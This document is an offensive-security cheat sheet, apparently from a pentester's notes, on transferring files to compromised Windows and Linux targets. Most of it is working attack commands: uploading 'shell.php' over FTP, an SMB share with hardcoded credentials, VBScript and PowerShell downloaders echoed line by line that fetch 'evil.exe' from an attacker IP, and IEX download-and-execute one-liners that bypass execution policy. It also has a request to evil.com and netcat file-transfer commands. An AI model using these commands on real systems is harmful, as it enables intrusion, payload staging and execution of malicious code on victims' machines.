 # File Transfers

  Potential tools that can be used:

-  wget
-  Python Simple Server Module 
-  FTP
-  nmap http-put
-  wget.vbs/ps1 (see below)
-  Cadaver
-  [Swego](https://github.com/nodauf/Swego)
-  [satellite](https://github.com/t94j0/satellite)
-  [pwndrop](https://github.com/kgretzky/pwndrop)

### FTP

If you have FTP access, you can try "putting" a file:

`ftp> put shell.php`

### Simple HTTP Server with Python

Turn current (kali) directory into a webserver (won't have to copy to /var/www/html):

`$ python -m SimpleHTTPServer <port#>`

### Impacket SMB Server

Attacking machine:

`$ impacket-smbserver GetchShare $(pwd) -smb2support -user Getch -password I@mGr00t!`

Target machine (Windows):

```powershell
PS C:\> $pass = convertto-securestring 'I@mGr00t!' -AsPlainText -Force
PS C:\> $cred = New-Object System.Management.Automation.PSCredential('Getch', $pass)
PS C:\> New-PSDrive -Name Getch -PSProvider FileSystem -Credential $cred -Root [\\<attacking_IP>\GetchShare](file://%3cattacking_IP%3e/GetchShare)
PS C:\> cd GetchShare:
PS GetchShare:\> echo "tada!"
```

### Python SMTP Server

`$ sudo python3 -m smtpd -n -c DebuggingServer 0.0.0.0:25`

### wget.vbs:

```shell
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

**USAGE**:

`C:\Users\Victim>cscript wget.vbs [http://attacking_IP/evil.exe](http://attacking_IP/evil.exe) evil.exe`

### wget.ps1

```powershell
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "[http://attacking_IP/evil.exe](http://attacking_IP/evil.exe)" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

**USAGE**:

`C:\Users\Victim>powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1`

### Downloading from PowerShell:

`PS C:\Users\Victim> IEX(New-Object Net.WebClient).downloadString('http://AttackerIP:port/FileToDownload.exe')`

or

`PS C:\Users\Victim> IEX(New-Object Net.WebClient).DownloadFile('http://AttackerIP:port/FileToDownload.exe','C:\Users\Victim\Writeable-Directory\FileToDownload.exe')`

or

`cmd /c powershell IEX(New-Object Net.WebClient).DownloadFile('http://AttackerIP:port/FileToDownload.exe','C:\Users\Victim\Writeable-Directory\FileToDownload.exe')`

or 

`PS C:\Users\Victim> Invoke-WebRequest -Uri https://evil.com/evil.exe -OutFile evil.exe`

### Nc

On the receiving end, running...

`nc -l -p 1234 > out.file`

...will begin listening on port 1234.

On the sending end, running...

`nc -w 3 \[destination\] 1234 < out.file`

...will connect to the receiver and begin sending file.

From <[https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers/](https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers/)\>